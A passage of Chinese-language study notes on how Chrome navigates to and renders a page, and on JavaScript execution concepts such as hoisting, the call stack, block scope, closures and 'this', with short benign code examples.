     在接收到服务器返回的响应头后，网络进程开始解析响应头，如果发现返回的状态码是 301 或者 302，那么说明服务器需要浏览器重定向到其他 URL。这时网络进程会从响应头的 `Location` 字段里面读取重定向的地址，然后再发起新的 HTTP 或者 HTTPS 请求，一切又重头开始了。

     **在导航过程中，如果服务器响应行的状态码包含了 301、302 一类的跳转信息，浏览器会跳转到新的地址继续导航；如果响应行是 2xx，那么表示浏览器可以继续处理该请求**。

   - 响应数据类型处理

     在处理了跳转信息之后。URL 请求的数据类型，有时候是一个下载类型，有时候是正常的 HTML 页面，浏览器通过 `Content-Type` 区分。**`Content-Type` 是 HTTP 头中一个非常重要的字段，它告诉浏览器服务器返回的响应体数据是什么类型**，然后浏览器会根据 `Content-Type` 的值来决定如何显示响应体的内容。

     不同 `Content-Type` 的后续处理流程也截然不同。**如果 `Content-Type` 字段的值被浏览器判断为下载类型，那么该请求会被提交给浏览器的下载管理器，同时该 URL 请求的导航流程就此结束。但如果是 HTML，那么浏览器则会继续进行导航流程**。由于 Chrome 的页面渲染是运行在渲染进程中的，所以接下来就需要准备渲染进程了。

3. 准备渲染进程

   默认情况下，Chrome 会为每个页面分配一个渲染进程，也就是说，每打开一个新页面就会配套创建一个新的渲染进程。但是，在某些情况下，浏览器会让多个页面直接运行在同一个渲染进程中。

   **例外情况**
   在同一站点（same-site）。“同一站点” 定义为根域名（例如，geekbang.org）加上协议（例如，https:// 或者 http://），还包含了该根域名下的所有子域名和不同的端口，比如下面这三个：

   ```txt
   https://time.geekbang.org
   https://www.geekbang.org
   https://www.geekbang.org:8080
   ```

   **Chrome 的默认策略是，每个标签对应一个渲染进程。但如果从一个页面打开了另一个新页面，而新页面和当前页面属于同一站点的话，那么新页面会复用父页面的渲染进程**。官方把这个默认策略叫 process-per-site-instance。

   打开一个新页面采用的渲染进程策略就是：

   - 通常情况下，打开新的页面都会使用单独的渲染进程。

   - 如果从 A 页面打开 B 页面，且 A 和 B 都属于同一站点的话，那么 B 页面复用 A 页面的渲染进程；如果是其他情况，浏览器进程则会为 B 创建一个新的渲染进程。

   渲染进程准备好之后，还不能立即进入文档解析状态，因为此时的文档数据还在网络进程中，并没有提交给渲染进程，所以下一步就进入了提交文档阶段。

4. 提交文档

   **提交文档，就是指浏览器进程将网络进程接收到的 HTML 数据提交给渲染进程**，具体流程：

   - 首先当浏览器进程接收到网络进程的响应头数据之后，便向渲染进程发起 “提交文档” 的消息。

   - 渲染进程接收到 “提交文档” 的消息后，会和网络进程建立传输数据的 “管道”。

   - 等文档数据传输完成之后，渲染进程会返回 “确认提交” 的消息给浏览器进程。

   - 浏览器进程在收到 “确认提交” 的消息后，会更新浏览器界面状态，包括了安全状态、地址栏的 URL、前进后退的历史状态，并更新 Web 页面。

   其中，当渲染进程确认提交之后，更新内容如下图：

   

   到这里，一个完整的导航流程就 “走” 完了，这之后就要进入渲染阶段了。

5. 渲染阶段

   一旦文档被提交，渲染进程便开始页面解析和子资源加载了。

### 2.5 渲染流程



从图中可以看出，左边输入的是 HTML、CSS、JS 数据，这些数据经过中间渲染模块的处理，最终输出为屏幕上的像素。

由于渲染机制过于复杂，所以渲染模块在执行过程中会被划分为很多子阶段，输入的数据经过这些子阶段，最后输出像素。把这样的一个处理流程叫做渲染流水线，其大致流程如下图所示：


按照渲染的时间顺序，流水线可分为如下几个子阶段：构建 DOM 树、样式计算、布局阶段、分层、绘制、分块、光栅化和合成。在每个阶段的过程中，应该重点关注以下三点内容：

- 开始每个子阶段都有其**输入的内容**。

- 然后每个子阶段有其**处理过程**。

- 最终每个子阶段会生成**输出内容**。

**构建 DOM 树**
为什么要构建 DOM 树呢？**这是因为浏览器无法直接理解和使用 HTML，所以需要将 HTML 转换为浏览器能够理解的结构——DOM 树**。


可以看到，DOM 和 HTML 内容几乎是一样的，但是和 HTML 不同的是，DOM 是保存在内存中树状结构，可以通过 JS 来查询或修改其内容。

**样式计算（Recalculate Style）**
样式计算的目的是为了计算出 DOM 节点中每个元素的具体样式，这个阶段大体可分为三步来完成。

1. 把 CSS 转换为浏览器能够理解的结构

   和 HTML 文件一样，浏览器也是无法直接理解这些纯文本的 CSS 样式，所以**当渲染引擎接收到 CSS 文本时，会执行一个转换操作，将 CSS 文本转换为浏览器可以理解的结构——styleSheets**。并且该结构同时具备了查询和修改功能。

2. 转换样式表中的属性值，使其标准化

   现在已经把现有的 CSS 文本转化为浏览器可以理解的结构了，那么接下来就要**对其进行属性值的标准化操作**。

   ```css
   body {
     font-size: 2em;
   }
   p {
     color: blue;
   }
   div {
     font-weight: bold;
   }
   ```

   可以看到上面的 CSS 文本中有很多属性值，如 2em、blue、bold，这些类型数值不容易被渲染引擎理解，所以**需要将所有值转换为渲染引擎容易理解的、标准化的计算值，这个过程就是属性值标准化**。

   

3. 计算出 DOM 树中每个节点的具体样式

   现在样式的属性已被标准化了，接下来就需要计算 DOM 树中每个节点的样式属性了，这就**涉及到 CSS 的继承规则和层叠规则**了。

   - 首先是 CSS 继承。**CSS 继承就是每个 DOM 节点都包含有父节点的样式**。

   - 样式计算过程中的第二个规则是样式层叠。**层叠是 CSS 的一个基本特征，它是一个定义了如何合并来自多个源的属性值的算法。它在 CSS 处于核心地位，CSS 的全称 “层叠样式表” 正是强调了这一点**。

   样式计算阶段的目的是为了计算出 DOM 节点中每个元素的具体样式，在计算过程中需要遵守 CSS 的继承和层叠两个规则。这个阶段最终输出的内容是每个 DOM 节点的样式，并被保存在 ComputedStyle 的结构内。

4. 布局阶段

   现在，有 DOM 树和 DOM 树中元素的样式，但这还不足以显示页面，因为还不知道 DOM 元素的几何位置信息。那么接下来就需要**计算出 DOM 树中可见元素的几何位置，这个计算过程叫做布局**。

   Chrome 在布局阶段需要完成两个任务：创建布局树和布局计算。

   1. 创建布局树

      DOM 树还含有很多不可见的元素，比如 head 标签，还有使用了 display:none 属性的元素。所以**在显示之前，还要额外地构建一棵只包含可见元素布局树**。

      

      从上图可以看出，DOM 树中所有不可见的节点都没有包含到布局树中。为了构建布局树，浏览器大体上完成了下面这些工作：

      - 遍历 DOM 树中的所有可见节点，并把这些节点加到布局树中。
      - 不可见的节点会被布局树忽略掉，如 head 标签下面的全部内容，再比如 body.p.span 这个元素，因为它的属性包含 dispaly:none，所以这个元素也没有被包进布局树。

   2. 布局计算

      在执行布局操作的时候，会把布局运算的结果重新写回布局树中，所以布局树既是输入内容也是输出内容，这是布局阶段一个不合理的地方，因为在布局阶段并没有清晰地将输入内容和输出内容区分开来。针对这个问题，Chrome 团队正在重构布局代码，下一代布局系统叫 LayoutNG，试图更清晰地分离输入和输出，从而让新设计的布局算法更加简单。

5. 分层

   页面中有很多复杂的效果，如一些复杂的 3D 变换、页面滚动，或者使用 z-index 做 z 轴排序等，为了更加方便地实现这些效果，渲染引擎还需要为特定的节点生成专用的图层，并生成一棵对应的图层树（LayerTree）。

   **浏览器的页面实际上被分成了很多图层，这些图层叠加后合成了最终的页面**。下面再来看看这些图层和布局树节点之间的关系：

   

   通常情况下，**并不是布局树的每个节点都包含一个图层，如果一个节点没有对应的层，那么这个节点就从属于父节点的图层**。如上图中的 span 标签没有专属图层，那么它们就从属于它们的父节点图层。但不管怎样，最终每一个节点都会直接或者间接地从属于一个层。

   通常满足下面两点中任意一点的元素就可以被提升为单独的一个图层：

   - **拥有[层叠上下文](https://developer.mozilla.org/zh-CN/docs/Web/CSS/CSS_Positioning/Understanding_z_index/The_stacking_context)属性的元素会被提升为单独的一层**

     页面是个二维平面，但是层叠上下文能够让 HTML 元素具有三维概念，这些 HTML 元素按照自身属性的优先级分布在垂直于这个二维平面的 z 轴上。可以结合下图来直观感受下：

     

     从图中可以看出，明确定位属性的元素、定义透明属性的元素、使用 CSS 滤镜的元素等，都拥有层叠上下文属性。

   - **需要剪裁（clip）的地方也会被创建为图层**

     文字超出父元素范围，会根据 overflow 的值进行裁剪，渲染引擎会为文字部分单独创建一个层，如果出现滚动条，滚动条也会被提升为单独的层。

6. 图层绘制

   在完成图层树的构建之后，渲染引擎会对图层树中的每个图层进行绘制。渲染引擎实现图层的绘制，会**把一个图层的绘制拆分成很多小的绘制指令**，然后再把这些指令按照顺序组成一个待绘制列表：

   

   从图中可以看出，绘制列表中的指令其实非常简单，就是让其执行一个简单的绘制操作，比如绘制粉色矩形或者黑色的线等。而绘制一个元素通常需要好几条绘制指令，因为每个元素的背景、前景、边框都需要单独的指令去绘制。所以在图层绘制阶段，输出的内容就是这些待绘制列表。

7. 栅格化（raster）操作

   绘制列表只是用来记录绘制顺序和绘制指令的列表，而实际上绘制操作是由渲染引擎中的合成线程来完成的。可以结合下图来看下渲染主线程和合成线程之间的关系：

   

   当图层的绘制列表准备好之后，主线程会把该绘制列表提交（commit）给合成线程。那么接下来合成线程是怎么工作的呢？那得先知道是视口。通常一个页面可能很大，但是用户只能看到其中的一部分，把用户可以看到的这个部分叫做**视口**（viewport）。

   在有些情况下，图层很大，使用滚动条要滚动好久才能滚动到底部，但是通过视口，用户只能看到页面的很小一部分，所以在这种情况下，要绘制出所有图层内容的话，就会产生太大的开销，而且也没有必要。基于这个原因，**合成线程会将图层划分为图块（tile）**，这些图块的大小通常是 256x256 或者 512x512：

   

   然后**合成线程会按照视口附近的图块来优先生成位图，实际生成位图的操作是由栅格化来执行的。所谓栅格化，是指将图块转换为位图。而图块是栅格化执行的最小单位**。渲染进程维护了一个栅格化的线程池，所有的图块栅格化都是在线程池内执行的，运行方式如下图所示：

   

   通常，栅格化过程都会使用 GPU 来加速生成，使用 GPU 生成位图的过程叫快速栅格化，或者 GPU 栅格化，生成的位图被保存在 GPU 内存中。GPU 操作是运行在 GPU 进程中，如果栅格化操作使用了 GPU，那么最终生成位图的操作是在 GPU 中完成的，这就涉及到了跨进程操作。具体形式可以参考下图：

   

   从图中可以看出，渲染进程把生成图块的指令发送给 GPU，然后在 GPU 中执行生成图块的位图，并保存在 GPU 的内存中。

8. 合成和显示
   一旦所有图块都被光栅化，合成线程就会生成一个绘制图块的命令——“DrawQuad”，然后将该命令提交给浏览器进程。浏览器进程里面有一个叫 viz 的组件，用来接收合成线程发过来的 DrawQuad 命令，然后根据 DrawQuad 命令，将其页面内容绘制到内存中，最后再将内存显示在屏幕上。

**渲染流水线总结**：


一个完整的渲染流程大致可总结为如下：

1. 渲染进程将 HTML 内容转换为能够读懂的 **DOM 树**结构。
2. 渲染引擎将 CSS 样式表转化为浏览器可以理解的 **styleSheets**，计算出 DOM 节点的样式。
3. 创建**布局树**，并计算元素的布局信息。
4. 对布局树进行分层，并生成**分层树**。
5. 为每个图层生成**绘制列表**，并将其提交到合成线程。
6. 合成线程将图层分成**图块**，并在光栅化线程池中将图块转换成位图。
7. 合成线程发送绘制图块命令 **DrawQuad** 给浏览器进程。
8. 浏览器进程根据 DrawQuad 消息**生成页面**，并显示到显示器上。

#### 2.5.1 相关概念

1. **更新了元素的几何属性（重排）**

   

   从上图可以看出，如果通过 JS 或者 CSS 修改元素的几何位置属性，例如改变元素的宽度、高度等，那么浏览器会触发重新布局，解析之后的一系列子阶段，这个过程就叫重排。无疑，**重排需要更新完整的渲染流水线，所以开销也是最大的**。

2. **更新元素的绘制属性（重绘）**

   比如通过 JS 更改某些元素的背景颜色，渲染流水线会怎样调整呢？可以参考下图：

   

   从图中可以看出，如果修改了元素的背景颜色，那么布局阶段将不会被执行，因为并没有引起几何位置的变换，所以就直接进入了绘制阶段，然后执行之后的一系列子阶段，这个过程就叫重绘。**相较于重排操作，重绘省去了布局和分层阶段，所以执行效率会比重排操作要高一些**。

3. **直接合成**

   如果更改一个既不要布局也不要绘制的属性，渲染引擎将跳过布局和绘制，只执行后续的合成操作，把这个过程叫做合成。

   

   直接在非主线程上执行合成动画操作。这样的效率是最高的，因为是在非主线程上合成，并没有占用主线程的资源，另外也避开了布局和绘制两个子阶段，所以相对于重绘和重排，合成能大大提升绘制效率。

## 三. 浏览器中的 JS 执行机制

### 3.1 变量提升和 JS 执行流程

**变量提升，是指在 JS 代码执行过程中，JS 引擎把变量的声明部分和函数的声明部分提升到代码开头的 “行为”。变量被提升后，会给变量设置默认值，这个默认值是 undefined**。

**JS 代码的执行流程**
从概念的字面意义上来看，“变量提升” 意味着变量和函数的声明会在物理层面移动到代码的最前面。但，这并不准确。实际上变量和函数声明在代码里的位置是不会改变的，而且是在编译阶段被 JS 引擎放入内存中。一段 JS 代码在执行之前需要被 JS 引擎编译，编译完成之后，才会进入执行阶段。大致流程可以参考下图：


1. **编译阶段**
   可以把 JS 的执行流程细化，如下图所示：

   

   从上图可以看出，输入一段代码，经过编译后，会生成两部分内容：

   - **执行上下文**（Execution context）
     **执行上下文是 JS 执行一段代码时的运行环境**，比如调用一个函数，就会进入这个函数的执行上下文，确定该函数在执行期间用到的诸如 this、变量、对象以及函数等。

     在执行上下文中存在一个**变量环境的对象**（Variable Environment），该对象中保存了变量提升的内容，比如上面代码中的变量 myname 和函数 showName，都保存在该对象中。

   - **可执行代码**

   > 如果在编译阶段，存在两个相同的函数，那么最终存放在变量环境中的是最后定义的那个，这是因为后定义的会覆盖掉之前定义的。

2. **执行阶段**：JS 引擎开始执行 “可执行代码”，按照顺序一行一行地执行。

### 3.2 调用栈：为什么 JS 代码会出现栈溢出？

哪些情况下代码才算是 “一段” 代码，才会在执行之前就进行编译并创建执行上下文。一般说来，有这么三种情况：

- 当 JS 执行全局代码的时候，会编译全局代码并创建全局执行上下文，而且在整个页面的生存周期内，全局执行上下文只有一份。
- 当调用一个函数的时候，函数体内的代码会被编译，并创建函数执行上下文，一般情况下，函数执行结束之后，创建的函数执行上下文会被销毁。
- 当使用 eval 函数的时候，eval 的代码也会被编译，并创建执行上下文。

JS 中有很多函数，经常会出现在一个函数中调用另外一个函数的情况，**调用栈就是用来管理函数调用关系的一种数据结构**。因此明白调用栈，还要先弄明白**函数调用**和**栈结构**。

**函数调用**
函数调用就是运行一个函数

```js
var a = 2;
function add() {
  var b = 10;
  return a + b;
}
add();
```

函数调用过程：

- 在执行到函数 add() 之前，JS 引擎会为上面这段代码创建全局执行上下文，包含了声明的函数和变量。

  

  从图中可以看出，代码中全局变量和函数都保存在全局上下文的变量环境中。

- 执行上下文准备好之后，便开始执行全局代码，当执行到 add 这儿时，JS 判断这是一个函数调用，那么将执行以下操作：

  - 首先，从**全局执行上下文**中，取出 add 函数代码。
  - 其次，对 add 函数的这段代码进行编译，并创建该函数的执行上下文和可执行代码。
  - 最后，执行代码，输出结果。

  

就这样，当执行到 add 函数的时候，就有了两个执行上下文了——全局执行上下文和 add 函数的执行上下文。也就是说在执行 JS 时，可能会存在多个执行上下文，**JS 引擎通过一种叫栈的数据结构来管理执行上下文**。

**栈结构**
栈类似于一端被堵住的单行线，车子类似于栈中的元素，栈中的元素满足**后进先出**的特点。

JS 引擎正是利用栈的这种结构来管理执行上下文的。在执行上下文创建好后，JS 引擎会将执行上下文压入栈中，通常把这种用来管理执行上下文的栈称为**执行上下文栈**，又称**调用栈**。

**调用栈是 JS 引擎追踪函数执行的一个机制**，当一次有多个函数被调用时，通过调用栈就能够追踪到哪个函数正在被执行以及各函数之间的调用关系。

查看和利用调用栈：

1. **利用浏览器查看调用栈的信息**
   可以打开 “开发者工具”，点击 “Source” 标签，选择 JS 代码的页面，然后加上断点并执行到对应位置，执行流程中断，这时可以通过右边 “call stack” 来查看当前的调用栈的情况，如下图：

   

   在分析复杂结构代码，或者检查 Bug 时，调用栈都是非常有用的。除了通过断点来查看调用栈，还可以使用 `console.trace()` 来输出当前的函数调用关系，比如在示例代码中的 add 函数里面加上了 console.trace()，就可以看到控制台输出的结果，如下图：

   

2. **栈溢出**（Stack Overflow）

   **调用栈是有大小的**，当入栈的执行上下文超过一定数目，JS 引擎就会报错，这种错误叫做栈溢出。特别是在写递归代码的时候，就很容易出现栈溢出的情况。比如下面这段代码：

   ```js
   function division(a, b) {
     return division(a, b);
   }
   console.log(division(1, 2));
   ```

   当执行时，就会抛出栈溢出错误：超过了最大栈调用大小（Maximum call stack size exceeded）。这是因为当 JS 引擎开始执行这段代码时，它首先调用函数 division，并创建执行上下文，压入栈中；然而，这个函数是递归的，并且没有任何终止条件，所以它会一直创建新的函数执行上下文，并反复将其压入栈中，但栈是有容量限制的，超过最大数量后就会出现栈溢出的错误。

### 3.3 var 缺陷与块级作用域

**由于 JS 存在变量提升这种特性，从而导致了很多与直觉不符的代码，这也是 JS 的一个重要设计缺陷**。

**作用域**（scope）
**作用域是指在程序中定义变量的区域，该位置决定了变量的生命周期。通俗地理解，作用域就是变量与函数的可访问范围，即作用域控制着变量和函数的可见性和生命周期**。

在 ES6 之前，JS 的作用域只有两种：

- **全局作用域**中的对象在代码中的任何地方都能访问，其生命周期伴随着页面的生命周期。
- **函数作用域**就是在函数内部定义的变量或者函数，并且定义的变量或者函数只能在函数内部被访问。函数执行结束之后，函数内部定义的变量会被销毁。

相较而言，其他语言则都普遍支持块级作用域。**块级作用域就是使用一对大括号包裹的一段代码**，比如函数、判断语句、循环语句，甚至单独的一个 {} 都可以被看作是一个块级作用域。

如果一种语言支持块级作用域，那么其代码块内部定义的变量在代码块外部是访问不到的，并且等该代码块中的代码执行完成之后，代码块中定义的变量会被销毁。

ES6 之前是不支持块级作用域的，因为当初设计这门语言的时候，只是按照最简单的方式来设计。没有了块级作用域，再把作用域内部的变量统一提升无疑是最快速、最简单的设计，不过这也直接导致了函数中的变量无论是在哪里声明的，在编译阶段都会被提取到执行上下文的变量环境中，所以这些变量在整个函数体内部的任何地方都是能被访问的，这也就是 JS 中的变量提升。

**变量提升所带来的问题与解决方案**
由于变量提升作用，使用 JS 来编写和其他语言相同逻辑的代码，都有可能会导致不一样的执行结果：

1. 变量容易在不被察觉的情况下被覆盖掉
2. 本应销毁的变量没有被销毁

为了解决这些问题，ES6 引入了 let 和 const 关键字，从而使 JS 也能像其他语言一样拥有了块级作用域。这两者之间的区别是，使用 let 关键字声明的变量是可以被改变的，而使用 const 声明的变量其值是不可以被改变的。

let 和 const 关键字是支持块级作用域的，所以在编译阶段，JS 引擎并不会把作用域块中 let 声明的变量存放到变量环境中，并不会提升到全函数可见。**作用域块内声明的变量不影响块外面的变量**。

**JS 是如何支持块级作用域的**
JS 引擎是通过变量环境实现函数级作用域的，那么 ES6 又是如何在函数级作用域的基础之上，实现对块级作用域的支持呢？可以先看下面这段代码：

```js
function foo() {
  var a = 1;
  let b = 2;
  {
    let b = 3;
    var c = 4;
    let d = 5;
    console.log(a);
    console.log(b);
  }
  console.log(b);
  console.log(c);
  console.log(d);
}
foo();
```

当执行上面这段代码的时候，JS 引擎会先对其进行编译并创建执行上下文，然后再按照顺序执行代码：

1. 第一步是编译并创建执行上下文

   

   通过上图，可以得出以下结论：

   - 函数内部通过 var 声明的变量，在编译阶段全都被存放到变量环境里面了。
   - 通过 let 声明的变量，在编译阶段会被存放到词法环境（Lexical Environment）中。
   - 在函数的作用域块内部，通过 let 声明的变量并没有被存放到词法环境中。

2. 第二步继续执行代码

   当执行到代码块里面时，变量环境中 a 的值已经被设置成了 1，词法环境中 b 的值已经被设置成了 2，这时候函数的执行上下文就如下图所示：

   

   从图中可以看出，当进入函数的作用域块时，作用域块中通过 let 声明的变量，会被存放在词法环境的一个单独的区域中，这个区域中的变量并不影响作用域块外面的变量。其实，在词法环境内部，维护了一个小型栈结构，栈底是函数最外层的变量，进入一个作用域块后，就会把该作用域块内部的变量压到栈顶；当作用域执行完成之后，该作用域的信息就会从栈顶弹出，这就是词法环境的结构。

   再接下来，当执行到作用域块中的 `console.log(a)` 这行代码时，就需要在词法环境和变量环境中查找变量 a 的值了，具体查找方式是：沿着词法环境的栈顶向下查询，如果在词法环境中的某个块中查找到了，就直接返回给 JS 引擎，如果没有查找到，那么继续在变量环境中查找。

   

   当作用域块执行结束之后，其内部定义的变量就会从词法环境的栈顶弹出，最终执行上下文如下图所示：

   

   块级作用域就是通过词法环境的栈结构来实现的，而变量提升是通过变量环境来实现，通过这两者的结合，JS 引擎也就同时支持了变量提升和块级作用域了。

### 3.4 作用域链和闭包

通过词法环境和变量环境来查找变量，这其中涉及到作用域链的概念。理解作用域链是理解闭包的基础，而闭包在 JS 中几乎无处不在，同时作用域和作用域链还是所有编程语言的基础。

```js
function bar() {
  console.log(myName);
}
function foo() {
  var myName = '极客邦';
  bar();
}
var myName = '极客时间';
foo();
```

当这段代码执行到 bar 函数内部时，其调用栈的状态图如下所示：


从图中可以看出，全局执行上下文和 foo 函数的执行上下文中都包含变量 myName，那 bar 函数里面 myName 的值到底该选择哪个呢？如果按照调用栈的顺序来查找变量，查找方式如下：

1. 先查找栈顶是否存在 myName 变量，但是这里没有，所以接着往下查找 foo 函数中的变量。
2. 在 foo 函数中查找到了 myName 变量，这时候就使用 foo 函数中的 myName。

那么最终执行 bar 函数打印出来的结果应该是 “极客邦”。但实际情况并非如此，如果执行上述代码，会发现打印出来的结果是 “极客时间”。

**作用域链**
**其实在每个执行上下文的变量环境中，都包含了一个外部引用，用来指向外部的执行上下文，这个外部引用被称为 outer**。

当一段代码使用了一个变量时，JS 引擎首先会在 “当前的执行上下文” 中查找该变量，比如上面那段代码在查找 myName 变量时，如果在当前的变量环境中没有查找到，那么 JS 引擎会继续在 outer 所指向的执行上下文中查找：


从图中可以看出，bar 函数和 foo 函数的 outer 都是指向全局上下文的，这也就意味着如果在 bar 函数或者 foo 函数中使用了外部变量，那么 JS 引擎会去全局执行上下文中查找。这个查找的链条就称为**作用域链**。

**词法作用域**
**词法作用域就是指作用域是由代码中函数声明的位置来决定的，所以词法作用域是静态的作用域，通过它就能够预测代码在执行过程中如何查找标识符**。


从图中可以看出，词法作用域就是根据代码的位置来决定的，其中 main 函数包含了 bar 函数，bar 函数中包含了 foo 函数，因为 JS 作用域链是由词法作用域决定的，所以整个词法作用域链的顺序是：foo 函数作用域 —> bar 函数作用域 —> main 函数作用域 —> 全局作用域。**词法作用域是代码编译阶段就决定好的，和函数是怎么调用的没有关系**。

#### 3.4.1 闭包

```js
function foo() {
  var myName = '极客时间';
  let test1 = 1;
  const test2 = 2;
  var innerBar = {
    getName: function () {
      console.log(test1);
      return myName;
    },
    setName: function (newName) {
      myName = newName;
    }
  };
  return innerBar;
}
var bar = foo();
bar.setName('极客邦');
bar.getName();
console.log(bar.getName());
```

从上面的代码可以看出，innerBar 是一个对象，包含了 getName 和 setName 的两个方法。可以看到，这两个方法都是在 foo 函数内部定义的，并且这两个方法内部都使用了 myName 和 test1 两个变量。

**根据词法作用域的规则，内部函数 getName 和 setName 总是可以访问它们的外部函数 foo 中的变量**，所以当 innerBar 对象返回给全局变量 bar 时，虽然 foo 函数已经执行结束，但是 getName 和 setName 函数依然可以使用 foo 函数中的变量 myName 和 test1。所以当 foo 函数执行完成之后，其整个调用栈的状态如下图所示：



从上图可以看出，foo 函数执行完成之后，其执行上下文从栈顶弹出了，但是由于返回的 setName 和 getName 方法中使用了 foo 函数内部的变量 myName 和 test1，所以这两个变量依然保存在内存中。这像极了 setName 和 getName 方法背的一个专属背包，无论在哪里调用了 setName 和 getName 方法，它们都会背着这个 foo 函数的专属背包。

之所以是专属背包，是因为除了 setName 和 getName 函数之外，其他任何地方都是无法访问该背包的，就可以把这个背包称为 foo 函数的闭包。**在 JS 中，根据词法作用域的规则，内部函数总是可以访问其外部函数中声明的变量，当通过调用一个外部函数返回一个内部函数后，即使该外部函数已经执行结束了，但是内部函数引用外部函数的变量依然保存在内存中，就把这些变量的集合称为闭包**。比如外部函数是 foo，那么这些变量的集合就称为 foo 函数的闭包。

执行到 bar.setName 方法中的 myName = "极客邦"这句代码时，JS 引擎会沿着 “当前执行上下文–>foo 函数闭包–> 全局执行上下文” 的顺序来查找 myName 变量，可以参考下面的调用栈状态图：



从图中可以看出，setName 的执行上下文中没有 myName 变量，foo 函数的闭包中包含了变量 myName，所以调用 setName 时，会修改 foo 闭包中的 myName 变量的值。也可以通过 “开发者工具” 来看看闭包的情况：


从图中可以看出来，当调用 bar.getName 的时候，右边 Scope 项就体现出了作用域链的情况：Local 就是当前的 getName 函数的作用域，Closure(foo) 是指 foo 函数的闭包，最下面的 Global 就是指全局作用域，从 “Local–>Closure(foo)–>Global” 就是一个完整的作用域链。

**闭包是怎么回收的**
通常，如果引用闭包的函数是一个全局变量，那么闭包会一直存在直到页面关闭；但如果这个闭包以后不再使用的话，就会造成内存泄漏。

如果引用闭包的函数是个局部变量，等函数销毁后，在下次 JS 引擎执行垃圾回收时，判断闭包这块内容如果已经不再被使用了，那么 JS 引擎的垃圾回收器就会回收这块内存。所以在使用闭包的时候，要尽量注意一个原则：**如果该闭包会一直使用，那么它可以作为全局变量而存在；但如果使用频率不高，而且占用内存又比较大的话，那就尽量让它成为一个局部变量**。

### 3.5 从 JS 执行上下文的视角讲清楚 this

在对象内部的方法中使用对象内部的属性是一个非常普遍的需求。但是 JS 的作用域机制并不支持这一点，基于这个需求，JS 又搞出来另外一套 **this 机制**。

#### 3.5.1 JS 中的 this 是什么

关于 this，得先从执行上下文说起。执行上下文中包含了变量环境、词法环境、外部环境，但其实还有一个 this 没有提及，具体可以参考下图：


从图中可以看出，**this 是和执行上下文绑定的，也就是说每个执行上下文中都有一个 this**。前面提到过，执行上下文主要分为三种——全局执行上下文、函数执行上下文和 eval 执行上下文，所以对应的 this 也只有这三种——全局执行上下文中的 this、函数中的 this 和 eval 中的 this。eval 基本不使用。

- 全局执行上下文中的 this
  可以在控制台中输入 console.log(this) 来打印出来全局执行上下文中的 this，最终输出的是 window 对象。所以可以得出这样一个结论：**全局执行上下文中的 this 是指向 window 对象的。这也是 this 和作用域链的唯一交点，作用域链的最底端包含了 window 对象，全局执行上下文中的 this 也是指向 window 对象**。

- 函数执行上下文中的 this

  ```js
  function foo() {
    console.log(this);
  }
  foo();
  ```

  在 foo 函数内部打印出来 this 值，执行这段代码，打印出来的也是 window 对象，这说明在默认情况下调用一个函数，其执行上下文中的 this 也是指向 window 对象的。通常情况下，有下面三种方式来设置函数执行上下文中的 this 值：

  1. **通过函数的 call 方法设置**

     ```js
     let bar = {
       myName: '极客邦',
       test1: 1
     };
     function foo() {
       this.myName = '极客时间';
     }
     foo.call(bar);
     console.log(bar);
     console.log(myName);
     ```

     执行这段代码，然后观察输出结果，就能发现 foo 函数内部的 this 已经指向了 bar 对象，因为通过打印 bar 对象，可以看出 bar 的 myName 属性已经由 “极客邦” 变为 “极客时间” 了，同时在全局执行上下文中打印 myName，JS 引擎提示该变量未定义。除了 call 方法，还可以使用 bind 和 apply 方法来设置函数执行上下文中的 this。

  2. **通过对象调用方法设置**

     ```js
     var myObj = {
       name: '极客时间',
       showThis: function () {
         console.log(this);
       }
     };
     myObj.showThis();
     ```

     执行这段代码，可以看到，最终输出的 this 值是指向 myObj 的。所以，可以得出这样的结论：**使用对象来调用其内部的一个方法，该方法的 this 是指向对象本身的**。

     也可以认为 JS 引擎在执行 myObject.showThis() 时，将其转化为了：

     ```js
     myObj.showThis.call(myObj);
     ```

     接下来稍微改变下调用方式，把 showThis 赋给一个全局对象，然后再调用该对象，代码如下所示：

     ```js
     var myObj = {
       name: '极客时间',
       showThis: function () {
         this.name = '极客邦';
         console.log(this);
       }
     };
     var foo = myObj.showThis;
     foo();
     ```

     执行这段代码，会发现 this 又指向了全局 window 对象。所以通过以上两个例子的对比，可以得出下面这样两个结论：

     - **在全局环境中调用一个函数，函数内部的 this 指向的是全局变量 window**。
     - **通过一个对象来调用其内部的一个方法，该方法的执行上下文中的 this 指向对象本身**。

  3. **通过构造函数中设置**

     ```js
     function CreateObj() {
       this.name = '极客时间';
     }
     var myObj = new CreateObj();
     ```

     在这段代码中，使用 new 创建了对象 myObj，当执行 new CreateObj() 的时候，JS 引擎做了如下四件事：

     - 首先创建了一个空对象 tempObj；
     - 接着调用 CreateObj.call 方法，并将 tempObj 作为 call 方法的参数，这样当 CreateObj 的执行上下文创建时，它的 this 就指向了 tempObj 对象；
     - 然后执行 CreateObj 函数，此时的 CreateObj 函数执行上下文中的 this 指向了 tempObj 对象；
     - 最后返回 tempObj 对象。

     这样，就通过 new 关键字构建好了一个新对象，并且构造函数中的 this 其实就是新对象本身。

#### 3.5.2 this 的设计缺陷以及应对方案

this 并不是一个很好的设计，因为它的很多使用方法都冲击人的直觉，在使用过程中存在着非常多的坑：

1. **嵌套函数中的 this 不会从外层函数中继承**

   ```js
   var myObj = {
     name: '极客时间',
     showThis: function () {
       console.log(this);
       function bar() {
         console.log(this);
       }
       bar();
     }
   };
   myObj.showThis();
   ```

   如果是刚接触 JS，那么可能会很自然地觉得，bar 中的 this 应该和其外层 showThis 函数中的 this 是一致的，都是指向 myObj 对象的，这很符合人的直觉。但实际情况却并非如此，执行这段代码后，会发现**函数 bar 中的 this 指向的是全局 window 对象，而函数 showThis 中的 this 指向的是 myObj 对象。这就是 JS 中非常容易让人迷惑的地方之一，也是很多问题的源头**。

   可以通过一个小技巧来解决这个问题，比如在 showThis 函数中声明一个变量 self 用来保存 this，然后在 bar 函数中使用 self，代码如下所示：

   ```js
   var myObj = {
     name: '极客时间',
     showThis: function () {
       console.log(this);
       var self = this;
       function bar() {
         self.name = '极客邦';
       }
       bar();
     }
   };
   myObj.showThis();
   console.log(myObj.name);
   console.log(window.name);
   ```

   执行这段代码，可以看到它输出了想要的结果，最终 myObj 中的 name 属性值变成了 “极客邦”。其实，**这个方法的的本质是把 this 体系转换为了作用域的体系**。

   也可以使用 ES6 中的箭头函数来解决这个问题，这是因为 **ES6 中的箭头函数并不会创建其自身的执行上下文，所以箭头函数中的 this 取决于它的外部函数**。

2. **普通函数中的 this 默认指向全局对象 window**

   在默认情况下调用一个函数，其执行上下文中的 this 是默认指向全局对象 window 的。

